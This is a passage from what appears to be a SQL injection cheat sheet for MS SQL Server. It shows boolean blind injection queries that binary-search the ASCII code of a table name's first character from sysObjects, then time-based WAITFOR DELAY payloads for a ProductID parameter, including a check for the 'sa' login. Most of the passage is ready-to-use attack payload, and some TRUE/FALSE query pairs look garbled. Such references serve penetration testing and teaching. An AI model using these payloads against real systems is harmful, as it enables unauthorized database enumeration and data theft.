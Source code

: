 **TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)   
**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>89--   
  
**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)   
**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>83--   
  
**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)   
**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>80--   
  
**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)`

Since both of the **last 2 queries failed** we clearly know table name's first char's **ascii value is 80 which means first char is \`P\`**. This is the way to exploit Blind SQL injections by binary search algorithm. Other well-known way is reading data bit by bit. Both can be effective in different conditions.

### Making Databases Wait / Sleep For Blind SQL Injection Attacks

First of all use this if it's really blind, otherwise just use 1/0 style errors to identify difference. Second, be careful while using times more than 20-30 seconds. database API connection or script can be timeout.

#### WAITFOR DELAY 'time' (S)

This is just like sleep, wait for specified time. CPU safe way to make database wait.

`WAITFOR DELAY '0:0:10'--`

Also, you can use fractions like this,

`WAITFOR DELAY '0:0:0.51'`

#### Real World Samples

-   Are we 'sa' ?   
    `if (select user) = 'sa' waitfor delay '0:0:10'`
-   ProductID = `1;waitfor delay '0:0:10'--`
-   ProductID =`1);waitfor delay '0:0:10'--`
-   ProductID =`1';waitfor delay '0:0:10'--`
-   ProductID =`1');waitfor delay '0:0:10'--`
-   ProductID =`1));waitfor delay '0:0:10'--`
-   ProductID =`1'));waitfor delay '0:0:10'--`
